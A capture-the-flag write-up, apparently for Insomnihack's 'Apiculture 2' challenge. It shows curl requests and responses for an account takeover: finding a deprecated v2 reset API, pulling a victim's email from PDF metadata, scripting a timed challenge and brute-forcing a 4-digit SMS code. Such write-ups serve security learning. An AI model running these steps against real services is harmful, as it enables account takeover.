




# Apiculture 2



Same as for the [apicuture1](../apiculture1/writeup), the page is filled by calling an api `./api/v4/products/` and the swagger can be found at `./api/v4/swagger.json`.
```json
{
    "swagger": "2.0",
    "basePath": "/",
    "paths": {
        "/products/": {
            "get": {
                "responses": {
                    "200": {
                        "description": "Success",
                        "schema": {
                            "type": "array",
                            "items": {
                                "$ref": "#/definitions/Product"
                            }
                        }
                    }
                },
                "operationId": "list_products",
                "tags": [
                    "products"
                ]
            }
        },
        "/users/reset": {
            "post": {
                "responses": {
                    "200": {
                        "description": "Success",
                        "schema": {
                            "$ref": "#/definitions/resetModelOutput"
                        }
                    }
                },
                "operationId": "reset",
                "parameters": [
                    {
                        "name": "payload",
                        "required": true,
                        "in": "body",
                        "schema": {
                            "$ref": "#/definitions/reset1ModelInput"
                        }
                    }
                ],
                "tags": [
                    "users"
                ]
            }
        }
    },
    "info": {
        "title": "Welcome to Apiculture2!",
        "version": "1.0"
    },
    "produces": [
        "application/json"
    ],
    "consumes": [
        "application/json"
    ],
    "tags": [
        {
            "name": "products"
        },
        {
            "name": "users"
        }
    ],
    "definitions": {
        "Product": {
            "required": [
                "name",
                "vendorId"
            ],
            "properties": {
                "productId": {
                    "type": "integer",
                    "description": "",
                    "readOnly": true
                },
                "name": {
                    "type": "string",
                    "description": ""
                },
                "vendorId": {
                    "type": "integer",
                    "description": ""
                }
            },
            "type": "object"
        },
        "reset1ModelInput": {
            "required": [
                "email"
            ],
            "properties": {
                "email": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "resetModelOutput": {
            "properties": {
                "message": {
                    "type": "string"
                }
            },
            "type": "object"
        }
    },
    "responses": {
        "ParseError": {
            "description": "When a mask can't be parsed"
        },
        "MaskError": {
            "description": "When any error occurs on mask"
        }
    }
}
```
We found a reset password endpoint. The call at `./api/users/reset/` with fake payload
```bash
curl --location --request POST 'https://apiculture2.insomnihack.ch/api/v4/users/reset' \
--header 'Content-Type: application/json' \
--data-raw '{
    "email": "fake"
}'
```
returns
```json
{
    "message": "If this email exists, we'll do our best to send you an email with a reset link."
}
```
Even if we find the email, this api will not help us 😞.
The api version is `v4`, let's try the previous ones:
* v3



* v2
```json
{
    "swagger": "2.0",
    "basePath": "/",
    "paths": {
        "/list_products/": {
            "get": {
                "responses": {
                    "200": {
                        "description": "Success",
                        "schema": {
                            "type": "array",
                            "items": {
                                "$ref": "#/definitions/Product"
                            }
                        }
                    }
                },
                "operationId": "list_products",
                "deprecated": true,
                "tags": [
                    "list_products"
                ]
            }
        },
        "/users/reset1": {
            "post": {
                "responses": {
                    "200": {
                        "description": "Success",
                        "schema": {
                            "$ref": "#/definitions/reset1ModelOutput"
                        }
                    }
                },
                "operationId": "reset1",
                "parameters": [
                    {
                        "name": "payload",
                        "required": true,
                        "in": "body",
                        "schema": {
                            "$ref": "#/definitions/reset1ModelInput"
                        }
                    },
                    {
                        "description": "Email to ask reset for",
                        "name": "email",
                        "type": "string",
                        "in": "query"
                    }
                ],
                "deprecated": true,
                "tags": [
                    "users"
                ]
            }
        },
        "/users/reset2": {
            "post": {
                "responses": {
                    "200": {
                        "description": "Success",
                        "schema": {
                            "$ref": "#/definitions/reset2ModelOutput"
                        }
                    }
                },
                "operationId": "reset2",
                "parameters": [
                    {
                        "name": "payload",
                        "required": true,
                        "in": "body",
                        "schema": {
                            "$ref": "#/definitions/reset2ModelInput"
                        }
                    },
                    {
                        "description": "Email to ask reset for",
                        "name": "email",
                        "type": "string",
                        "in": "query"
                    }
                ],
                "deprecated": true,
                "tags": [
                    "users"
                ]
            }
        },
        "/users/reset3": {
            "post": {
                "responses": {
                    "200": {
                        "description": "Success",
                        "schema": {
                            "$ref": "#/definitions/reset3ModelOutput"
                        }
                    }
                },
                "operationId": "reset3",
                "parameters": [
                    {
                        "name": "payload",
                        "required": true,
                        "in": "body",
                        "schema": {
                            "$ref": "#/definitions/reset3ModelInput"
                        }
                    }
                ],
                "deprecated": true,
                "tags": [
                    "users"
                ]
            }
        }
    },
    "info": {
        "title": "Welcome to Apiculture2!",
        "version": "1.0"
    },
    "produces": [
        "application/json"
    ],
    "consumes": [
        "application/json"
    ],
    "tags": [
        {
            "name": "users"
        },
        {
            "name": "list_products"
        }
    ],
    "definitions": {
        "reset1ModelInput": {
            "required": [
                "email"
            ],
            "properties": {
                "email": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "reset1ModelOutput": {
            "properties": {
                "aes256Payload": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "reset2ModelInput": {
            "required": [
                "aes256PayloadFromReset1",
                "challengeResponse"
            ],
            "properties": {
                "challengeResponse": {
                    "type": "integer"
                },
                "aes256PayloadFromReset1": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "reset2ModelOutput": {
            "properties": {
                "aes256Payload": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "reset3ModelInput": {
            "required": [
                "aes256PayloadFromReset2",
                "sms4digits"
            ],
            "properties": {
                "sms4digits": {
                    "type": "integer"
                },
                "aes256PayloadFromReset2": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "reset3ModelOutput": {
            "properties": {
                "newPassword": {
                    "type": "string"
                }
            },
            "type": "object"
        },
        "Product": {
            "required": [
                "name",
                "vendorId"
            ],
            "properties": {
                "productId": {
                    "type": "integer",
                    "description": "",
                    "readOnly": true
                },
                "name": {
                    "type": "string",
                    "description": ""
                },
                "vendorId": {
                    "type": "integer",
                    "description": ""
                }
            },
            "type": "object"
        }
    },
    "responses": {
        "ParseError": {
            "description": "When a mask can't be parsed"
        },
        "MaskError": {
            "description": "When any error occurs on mask"
        }
    }
}
```

The reset is different: 3 steps. The first call at `api/v2/users/reset1` 
```bash
curl --location --request POST 'https://apiculture2.insomnihack.ch/api/v2/users/reset1' \
--header 'Content-Type: application/json' \
--data-raw '{
    "email": "fake"
}'
```
returns
```json
{
    "error": "user not found"
}
```
It is much better. If we find an email, we can use this api.

This time, no api for vendors. Lets see if we have any files for SEO like `./robots.txt` or `./sitemap.xml`.
```xml
<urlset>
    <url>
        <loc>/</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/index.html</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/marketing_legacy/giftcard.pdf</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/3.jpg</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/12.jpg</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/19.jpg</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/26.jpg</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/54.jpg</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
    <url>
        <loc>/72.jpg</loc>
        <lastmod>2005-01-01</lastmod>
        <changefreq>monthly</changefreq>
        <priority>0.0</priority>
    </url>
</urlset>
```
The interesting path is `/marketing_legacy/giftcard.pdf` because the parent directory is not protected.



We open each files. Nothing interesting in the body, but the meta data are more useful.



A google search gives the email of this person : `winnybarenjungen@gmail.com`.

Now we just have to call the 3 steps for reset :
```bash
curl --location --request POST 'https://apiculture2.insomnihack.ch/api/v2/users/reset1' \
--header 'Content-Type: application/json' \
--data-raw '{
    "email": "winnybarenjungen@gmail.com"
}'
```
returns
```json
{
    "challenge": "39976 + 7",
    "aes256Payload": "tFxG_zGGCGUl-GBIulWmkLDDigpoIgyi8uAK3roU5UBS0uUGRntM-XO2awZzsdsfaAp5f2h1WEEvOJQ1QI44TxbeXAi0UaFE87wcaO3BYfI="
}
```
We have to solve the challenge for the next step:
```bash
curl --location --request POST 'https://apiculture2.insomnihack.ch/api/v2/users/reset2' \
--header 'Content-Type: application/json' \
--data-raw '{
    "challengeResponse": 39983,
    "aes256PayloadFromReset1": "tFxG_zGGCGUl-GBIulWmkLDDigpoIgyi8uAK3roU5UBS0uUGRntM-XO2awZzsdsfaAp5f2h1WEEvOJQ1QI44TxbeXAi0UaFE87wcaO3BYfI="
}'
```
But we were too slow:
```json
{
    "error": "challenge expired!"
}
```
We need to automate each call (in our case, using a bash script), and this time the response was:
```json
{
    "aes256Payload": "hLtq2y-0I7x13MEMWZez-oLTrvhIkrRmP-idc7X90XYahVOyU8gM8mt7GdJ4t_vr"
}
```
And for the 3rd call:
```bash
curl --location --request POST 'https://apiculture2.insomnihack.ch/api/v2/users/reset3' \
--header 'Content-Type: application/json' \
--data-raw '{
    "aes256PayloadFromReset2": "hLtq2y-0I7x13MEMWZez-oLTrvhIkrRmP-idc7X90XYahVOyU8gM8mt7GdJ4t_vr",
    "sms4digits": 1234
}'
```
which returns
```json
{
    "error": "Wrong sms4digits!"
}
```
We update the last step with a loop to brute force the `sms4digits` and write all responses into a log file. One of the call returns
```json
{
    "newPassword": "{INS-….}"
}
```
Let me know if another way can be used for the last step 😉